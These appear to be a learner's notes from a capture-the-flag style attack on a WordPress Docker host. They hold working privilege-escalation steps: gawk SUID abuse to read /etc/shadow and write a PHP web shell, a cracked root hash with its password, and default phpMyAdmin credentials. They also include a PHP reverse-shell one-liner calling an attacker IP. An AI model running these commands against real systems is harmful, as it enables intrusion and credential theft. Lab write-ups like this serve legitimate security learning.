                      
            ./docker-compose.yml
            ./wp-config-docker.php
            ./wp-config.php

2. auto
/dev/shm/linpeas.sh Sun Jul 14 22:52:02 UTC 2024
- actually, it's applied on each user 
     gawk SUID
    - I can read file, I can write file, ...
        - /etc/shadow, root hash get $1$BcBHqupt$IsJVqcoWOKszdTQODEn0H1 > try cracking > MD5(Unix) crackable
        > john --wordlist=/usr/share/wordlists/rockyou.txt hash
            - root:larissa
    - if I can write, /etc/shadow or /etc/passwd > add user
LFILE=/root/xmlrpc.php
gawk -v LFILE=$LFILE 'BEGIN { print "<?php echo \'123\' ?>" > LFILE }'
    - problem is I cuoldn't escape single quote in single quote with Bash shell
    - you can \x27 hex ASCII to escape 
    - e.g. `echo -e 'begin with this \x27123\x27 end'`
    - another case is the same : gawk -v LFILE=$LFILE 'BEGIN { print "<?php echo \x27123\x27 ?>" > LFILE }'
    - just php web oneliner shell > and get revshell with Burpsuite.
        nc -h 2>&1 
        python3, php, curl, perl, etc
            - cmdrevshell: php -r '$sock=fsockopen("10.8.0.129",1234);exec("sh <&3 >&3 2>&3");'
                - need URL encoding
                - www-data got > fully tty shell > but it's another host.
            - phpfileshell: or you can wget stable revshell.php and execute

![alt text](image.png)


### Review & Remind
1. 8080 phpmyadmin default password trial
    - success : get root:toorg creds 
        - but couldn't use to anywhere
    - even though if not, I can find creds as miller in /root/ (wordpress default root directory)
        - grep -ri pass* /root
    
